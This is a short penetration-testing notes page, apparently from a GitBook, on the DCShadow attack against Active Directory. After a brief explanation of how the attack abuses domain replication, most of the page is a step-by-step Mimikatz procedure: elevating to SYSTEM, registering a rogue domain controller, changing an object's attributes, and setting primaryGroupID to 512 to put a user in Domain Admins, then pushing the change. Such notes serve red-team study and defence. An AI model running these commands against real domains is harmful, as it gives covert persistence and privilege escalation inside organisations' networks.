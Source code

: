 # DCShadow

## <mark style="color:red;">DCShadow</mark>

{% embed url="https://www.dcshadow.com" %}

{% embed url="https://pentestlab.blog/2018/04/16/dcshadow" %}

#### A DCShadow attack on Active Directory is an attack designed to change directory objects using malicious replication. During this attack, DCShadow impersonates a Domain Controller using administrative rights and starts a replication process, so that changes made on one Domain Controller are synchronized with other Domain Controllers. DCShadow abuses the Directory Replication Service (DRS) Remote Protocol \[MS-DRSR] and Active Directory Technical specification \[MS-ADTS].

![](<../../../.gitbook/assets/image (19) (1).png>)

## <mark style="color:red;">Exploitation</mark>

Start Mimikatz, running as an account that is part of Domain Admins or Enterprise Admins:

```
mimikatz # !+
# This will start the mimikatz service (mimidrv) if it’s not running.
mimikatz # !processtoken
# This will elevate mimikatz process to system privilege.
mimikatz # lsadump::dcshadow /object: CN=[replace],OU=[with],DC=[your],DC=[AD object] /attribute: description /value: “DCShadow was here”
# This command will start the RPC server and it will modify the object of this user’s description value once it’s been pushed.
# Another interesting part is adding a user to domain admins group:
mimikatz # lsadump::dcshadow /object: CN=[replace],OU=[with],DC=[your],DC=[AD object] /attribute: primaryGroupID /value: 512
```

Now start another mimikatz process (leave the other window open) and push the object changes:

```
mimikatz # lsadump::dcshadow /push
# This command will push the object and sync with the domain.
```
